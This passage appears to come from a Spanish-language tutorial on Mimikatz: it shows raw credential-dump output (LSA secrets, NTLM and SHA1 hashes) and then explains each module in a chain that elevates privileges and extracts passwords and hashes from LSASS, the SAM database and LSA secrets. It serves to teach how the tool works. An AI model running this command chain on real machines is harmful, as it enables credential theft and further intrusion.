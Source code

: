     old/hex : de ce 87 d1 ac 7b 8a ff c5 3b db 11 1d bd 9f 81 ca 32 f1 c5 cc 3f 89 cc 95 80 7a 97 1c 5d 2d 8b 28 af 7d 25 1a 53 7e b9 5c b9 2a 23 6a fb ca bb 9e 20 16 d4 3c f6 7e b4 b4 76 48 c6 b7 10 25 9a 07 b5 07 b2 7f d2 b1 b0 a1 b0 f9 ce a1 92 a7 26 3d 0d ff ca d8 16 5b 60 9d 20 64 ea d9 0b f5 5a c0 0f 79 1f a0 b4 e3 43 cd 63 d1 ec 14 f8 5d bb 4c e0 22 da 1e 83 6f 1a eb 39 82 cd 45 97 23 ea a4 ef d0 52 72 96 cb a1 f5 1c 07 ea ef cb 45 17 7b 5a f0 0b 8b 57 bb 8f 1e 35 2f f3 55 57 61 5b 4f 12 2f 51 11 c2 1b 60 59 39 c6 df 0c 06 9b 11 db 70 92 9e 90 6b 6c 49 f8 f7 d4 af 4c 86 21 87 e4 ea 57 50 a6 b7 87 ad 4d 61 c5 b0 35 84 79 c6 9d 26 8f a7 0f e7 3a e3 fb 34 24 88 27 fd c5 ae d5 61 67 1e eb 78 a7 05 dc 38 9a 9c 72 0a 44 cc
        NTLM:7d0c4cdc32724b99ef4459147401471a
        SHA1:cd54e4ac32cca2e2ad07df657a832d9ee1cabe04

    Secret  : DPAPI_SYSTEM
    cur/hex : 01 00 00 00 91 be 0d 0d 7a 07 12 fc 89 cd eb f3 39 1e 99 37 6b 34 ac d1 b5 b9 27 6f 74 f7 bb 7f 9b 8c 21 e6 39 98 83 e7 19 c4 ef f4
        full: 91be0d0d7a0712fc89cdebf3391e99376b34acd1b5b9276f74f7bb7f9b8c21e6399883e719c4eff4
        m/u : 91be0d0d7a0712fc89cdebf3391e99376b34acd1 / b5b9276f74f7bb7f9b8c21e6399883e719c4eff4
    old/hex : 01 00 00 00 3f 58 17 78 dc 26 36 52 37 eb 61 20 87 07 4c 73 40 d8 73 7d 36 32 97 aa 29 58 8c 35 f7 07 26 34 80 42 33 16 9f 13 c7 b9
        full: 3f581778dc26365237eb612087074c7340d8737d363297aa29588c35f7072634804233169f13c7b9
        m/u : 3f581778dc26365237eb612087074c7340d8737d / 363297aa29588c35f7072634804233169f13c7b9

    Secret  : NL$KM
    cur/hex : b6 96 c7 7e 17 8a 0c dd 8c 39 c2 0a a2 91 24 44 a2 e4 4d c2 09 59 46 c0 7f 95 ea 11 cb 7f cb 72 ec 2e 5a 06 01 1b 26 fe 6d a7 88 0f a5 e7 1f a5 96 cd e5 3f a0 06 5e c1 a5 01 a1 ce 8c 24 76 95
    old/hex : b6 96 c7 7e 17 8a 0c dd 8c 39 c2 0a a2 91 24 44 a2 e4 4d c2 09 59 46 c0 7f 95 ea 11 cb 7f cb 72 ec 2e 5a 06 01 1b 26 fe 6d a7 88 0f a5 e7 1f a5 96 cd e5 3f a0 06 5e c1 a5 01 a1 ce 8c 24 76 95

    mimikatz(commandline) # exit
    Bye!
    ```

    Vamos a desglosar cada parte del comando para entender mejor los procesos y tecnologías involucrados:

    1. **.\mimikatz.exe**: Este es el comando para ejecutar Mimikatz. `.\` indica que Mimikatz se ejecuta desde el directorio actual en la línea de comandos de Windows.
    2. **'privilege::debug'**: Este comando en Mimikatz solicita privilegios de depuración para el proceso Mimikatz. Los privilegios de depuración son necesarios para acceder a ciertas áreas de la memoria del sistema operativo y realizar operaciones que normalmente están restringidas.
    3. **'token::elevate'**: Este comando intenta elevar los privilegios de Mimikatz. En el contexto de Mimikatz, esto generalmente significa obtener un token de seguridad de un proceso con privilegios más altos, permitiendo que Mimikatz opere con esos privilegios elevados.
    4. **'sekurlsa::logonpasswords'**: Este comando extrae las contraseñas y otros datos de autenticación de la memoria del sistema, específicamente desde la seguridad de Kerberos, SSP, msv1\_0, entre otros. Utiliza el módulo sekurlsa de Mimikatz para acceder a la información almacenada por el proceso LSASS (Local Security Authority Subsystem Service).
    5. **'lsadump::sam'**: Este comando extrae las credenciales almacenadas en la base de datos SAM (Security Accounts Manager). La SAM contiene las credenciales de todos los usuarios locales del sistema y se utiliza generalmente para obtener hashes de contraseñas de cuentas locales.
    6. **'lsadump::secrets'**: Este comando se utiliza para extraer "secretos" almacenados por el sistema, como claves de acceso y otros datos sensibles, que pueden estar almacenados en el registro o en el servicio LSASS.
